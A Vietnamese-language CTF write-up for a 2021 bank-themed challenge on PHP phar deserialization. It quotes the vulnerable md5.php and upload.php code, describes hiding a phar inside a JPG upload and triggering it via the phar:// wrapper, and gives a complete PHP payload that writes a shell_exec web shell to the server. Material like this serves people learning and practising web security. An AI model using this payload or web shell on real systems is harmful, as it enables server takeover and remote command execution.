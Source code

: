 # Phar deserialization - Bank CTF 2021

## Source code : [lele.zip](https://github.com/CTF-STeam/ctf-writeups/files/6240642/lele.zip)

## Writeup :
- Khi lướt qua nội dung 3 file **upload.php** **md5.php** và **logging.php** , ta thấy được **logging.php** chỉ được include chứ không được gọi lần nào cả. Đây chính là hint của tác giả ra đề.
- **logging.php** có định nghĩa hàm ```_destruct() ``` của class **Logfile** được sử dụng ghi ra 1 file. Rõ ràng tác giả muốn nói rằng, ta phải khai thác class **LogFile** trong **logging.php**
- Với thông tin trên, chắc chắn attack vector của bài này là phar deserialization. Vấn đề là nó sẽ deserialization ở đâu.
- Nhìn vào file **md5.php** như dưới đây
```
<?php
    session_start();
    include 'logging.php';
    //echo $_SESSION['path'];
    if(isset($_GET['file'])){
        $file = str_replace('<','',$_GET['file'],$i);
        if ($i){
                die();
        }
        $a = md5_file($file);
        echo '<b>MD5 '.$file.':</b>';
        echo '<br>'.$a;
        echo "<br><a href='./index.html'>Back</a>";
    }
    else{
        $a = md5_file($_SESSION['path']);
        echo '<b>MD5 '.$_SESSION['path'].':</b>';
        echo '<br>'.$a;
        echo "<br><a href='./index.html'>Back</a>";
    }

	/*DienTapATTT{nobug_nobounty__bigbug_bigbounty_nopain_nogain}*/
?>
```
- Đọc blog ở https://www.programmersought.com/article/22324374929/ ,  ta thấy **md5_file** có thể lợi dụng để deserialize phar. Quá toẹt vời! Chỉ cần upload được file phar lên là sẽ deserialization attack
- Tuy nhiên, check file **upload.php** , đoạn code bên dưới là đoạn chỉ cho phép upload **jpg, png, gif** 
```
$allowedExtensions = ['jpg', 'png', 'gif'];

    $fName = $_FILES['imageUpload']['name'];
    $fName = str_replace('<','',$fName,$i);
    if ($i){
        echo 'File name is not allowed!hihi';
        echo "<br><a href='./index.html'>Back</a>";
        die();
    }
    $fSize = $_FILES['imageUpload']['name'];
    $fTmp = $_FILES['imageUpload']['tmp_name'];
    $fType = $_FILES['imageUpload']['type'];
    $fExt = strtolower(end(explode('.', $fName)));
```
- Quay lại blog bên trên https://www.programmersought.com/article/30483796863/ , tác giả có viết như sau
```
 Sam Thomas found that the Phar file can be hidden in a JPG file, so this step can be directly achieved by using the common image upload function
```
- Vậy là đủ yếu tố để thực hiện exploit, cơ bản ý tưởng sẽ như sau
  + Tạo 1 file phar tên **payload.phar**
  + Rename file thành **payload.jpg**
  + Upload file, file sẽ được lưu ở /var/www/uploads/payload.jpg
  + Gọi http://target/md5.php?file=phar://var/www/uploads/payload.jpg
  + Shell sẽ được ghi trên server
  + Flag! **ATTT{PharDeserialization_1412.}**
## Payload
```
<?php
include 'logging.php';
$payload = new LogFile();
$payload->filename = '/var/www/html/uploads/shellvl.php';
$payload->fcontents = "<?php echo shell_exec(\$_GET['e'].' 2>&1'); ?>";
var_dump($payload);

// create new Phar
@unlink("payload.phar");
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');
//set payload
$phar->setMetadata($payload);
$phar->stopBuffering();
?> 
```
Chạy ```php poc.php``` sẽ sinh ra **payload.phar**
